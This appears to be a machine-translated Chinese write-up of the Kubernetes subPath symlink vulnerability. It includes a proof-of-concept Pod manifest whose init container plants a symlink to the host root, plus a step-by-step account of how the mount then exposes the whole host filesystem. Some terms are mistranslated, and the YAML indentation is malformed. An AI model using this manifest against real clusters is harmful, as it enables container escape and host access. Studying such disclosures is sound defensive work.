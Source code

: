 ## 漏洞

Maxim Ivanov发现了子路径卷的漏洞，并发表了一些观察结论：
    
    1.子路径引用由用户控制的文件或目录，而不是系统。
    2.卷可以由Pod生命周期中不同时间的容器共享，包括不同的Pod。
    3.Kubernetes将主机路径传递给容器运行时以将装载绑定到容器中。

下面的基本示例演示了此漏洞。它利用上面概述的观察结果：

    1.使用init容器通过符号链接设置卷。
    2.使用常规容器稍后将该符号链接安装为子路径。
    3.导致kubelet在将主机传递到容器运行时之前评估主机上的符号链接。

    apiVersion: v1
    kind: Pod
    metadata:
      name: my-pod
    spec:
      initContainers:
      - name: prep-symlink
    	image: "busybox"
    	command: ["bin/sh", "-ec", "ln -s / /mnt/data/symlink-door"]
    	volumeMounts:
    	- name: my-volume
      		mountPath: /mnt/data
      containers:
      - name: my-container
    	image: "busybox"
    	command: ["/bin/sh", "-ec", "ls /mnt/data; sleep 999999"]
    	volumeMounts:
   	 	- mountPath: /mnt/data
      		name: my-volume
      		subPath: symlink-door
     volumes:
      - name: my-volume
    	emptyDir: {}

在这个例子中，系统将会：

    1.在设置EmptyDir卷 /var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume
    2.将init容器的以下安装信息传递给容器运行时：
    	集装箱路径： /mnt/data
    	主机路径： /var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume
    3.容器运行时绑定/mnt/data在容器根文件系统中/var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume安装到主机上。
    4.容器运行时启动init容器。
    5.init容器在容器内创建一个符号链接：/mnt/data/symlink-door- > /，然后退出。
    6.Kubelet开始为普通容器准备卷装。
    7.它构建子路径卷挂载的主机路径：/var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume/ + symlink-door。
    8.并将下列装载信息传递给容器运行时：
    	集装箱路径： /mnt/data
    	主机路径： /var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume/symlink-door
    9.容器运行时绑定安装/mnt/data在容器根文件系统中/var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty~dir/my-volume/symlink-door
    10.但是，bind mount可以解析符号链接，在这种情况下，它会解析到/主机上！现在容器可以通过它的挂载点看到主机的所有文件系统/mnt/data。
